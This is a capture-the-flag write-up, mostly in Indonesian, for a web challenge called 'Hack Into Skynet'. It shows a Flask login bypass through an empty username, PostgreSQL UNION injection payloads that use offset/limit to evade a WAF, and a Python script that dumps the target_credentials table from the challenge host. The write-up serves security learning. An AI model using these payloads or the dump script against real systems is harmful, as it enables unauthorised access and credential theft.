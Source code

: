 # Hack Into Skynet

Hack into skynet to save the world, which way do you prefer?

Note: Skynet is a blackbox detection engine which is not provided. But you don't have to guess.

Note2: Scanner or sqlmap NOT REQUIRED to solve this challenge, please do not use scanners.

Target: [47.242.21.212:8081-8086](http://47.242.21.212:8081)

```txt
Category: Web
Difficulty: Schrodinger 
```

## Bypass the login
Diberikan sebuah tar file yang berisi script python dan terdapat sebuah vuln pada fungsi query_login_attempt() yang dimana me-return nilai bool true jika hanya menginputkan password tanpa menginputkan username 
```python
def query_login_attempt():
    username = flask.request.form.get('username', '')
    password = flask.request.form.get('password', '')
    if not username and not password:
        return False

    sql = ("SELECT id, account"
           "  FROM target_credentials"
           "  WHERE password = '{}'").format(hashlib.md5(password.encode()).hexdigest())
    user = sql_exec(sql)
    name = user[0][1] if user and user[0] and user[0][1] else ''
    return name == username
```
Asumsikan jika kita input password sembarang maka server akan mengembalikan empty string. Dengan itu, maka user akan menjadi empty string juga
```python
name = user[0][1] if user and user[0] and user[0][1] else ''
```
Fungsi tersebut akan me-return true karena name = '' dan username = ''
```python
return name == username
```

## Sqli Postgres and Preventing WAF 

Exececute query sql pada parameter name berdasarkan pada code, terdapat query yang mengambil input dari user dan return nilai output
```python
name = flask.request.form.get('name', '')
    if not name:
        return None

    sql = ("SELECT name, born"
           "  FROM target"
           "  WHERE age > 0"
           "    AND name = '{}'").format(name)
    nb = sql_exec(sql)
    if not nb:
        return None
    return '{}: {}'.format(*nb[0])
```
Untuk percobaan pertama menggunakan teknik union sql tetapi di block oleh WAF. Setelah mencari cara lain akhirnya percobaan berhasil dengan penambahan [offset, limit, dan ()]
```sql
' union SELECT '1',(SELECT '1') limit 1 offset 0 -- -
```
```html
<h1>Kill before</h1>
<h1>1: 1</h1>
```
Langsung saja kita buat payloadnya untuk melihat column dari table target_credentials dan didapat column 'id'
```sql
' union SELECT '1',(SELECT column_name FROM information_schema.columns WHERE table_name='target_credentials' offset 0 limit 1) offset 0 limit 1-- -
```
```html
<h1>Kill before</h1>
<h1>1: id</h1>
```
Karena kita dibatasi dengan limit, maka kita harus membrute-force pada offset satu persatu untuk me-leak semua column. Cukup dengan for loop untuk melakukan percobaan

Dayummmm we got that flag!
```txt
column -> secret_key, value -> [' rwctf{t0-h4ck-$kynet-0r-f1ask_that-Is-th3-questi0n}']
```
## Mnegkodingan
```python
import requests
import re

url = 'http://47.242.21.212:8081'

s = requests.Session()
data = {'username': '', 'password': 'admin'}
r = s.post(url + '/login', data=data)
for i in range(0, 25):
    a = list()
    data2 = {
        'name': """' union select '1', (SELECT column_name from information_schema.columns where table_name='target_credentials' offset {} limit 1) offset 0 limit 1 -- -""".format(i)}

    r = s.post(url, data=data2)
    filter = re.findall(r'<h1>1:(.*?)</h1>', r.text)
    if ' None' not in filter:
        a.append(filter[0].strip())
        for j in a:
            for i in range(0, 25):
                data2.update({'name': """' union select '1', (SELECT {} from target_credentials offset {} limit 1) offset 0 limit 1 -- -""".format(j, i)})
                r2 = s.post(url, data=data2)
                filter2 = re.findall(r'<h1>1:(.*?)</h1>', r2.text)
                if ' None' not in filter2:
                    print(f'column -> {j}, value -> {filter2}')
```
